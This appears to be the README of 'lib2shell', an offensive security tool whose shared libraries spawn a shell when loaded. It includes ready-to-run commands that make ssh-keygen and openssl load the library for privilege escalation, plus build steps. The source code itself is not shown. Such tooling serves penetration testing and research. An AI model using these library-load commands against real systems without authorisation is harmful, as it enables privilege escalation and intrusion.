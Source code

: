 # lib2shell  

**Author: Sean Pesce**  

## Overview  

Shared library implementations that transform the containing process into a shell on load (useful for privilege escalation, argument injection, file overwrites, etc.). A write-up of a privilege escalation scenario using this technique can be found on [my blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html).

## Usage  

Examples for Unix operating systems:  

```
ssh-keygen -D ./lib2shell.so
```

```
openssl req -engine ./lib2shell.so
```

([Other examples](https://gtfobins.github.io/#+library%20load))


Examples on Windows:  

```
ssh-keygen -D .\lib2shell.dll
```

```
openssl req -engine .\lib2shell.dll
```

## Compiling  

Unix:  

```
make
```

Windows:  

Open the project in Visual studio, select your build configuration ("Release" and your target architecture), then in the top menu click *Build*→*Build Solution*.  

---------------------------------------------

For inquiries and/or information about me, visit my **[personal website](https://SeanPesce.github.io)**.  

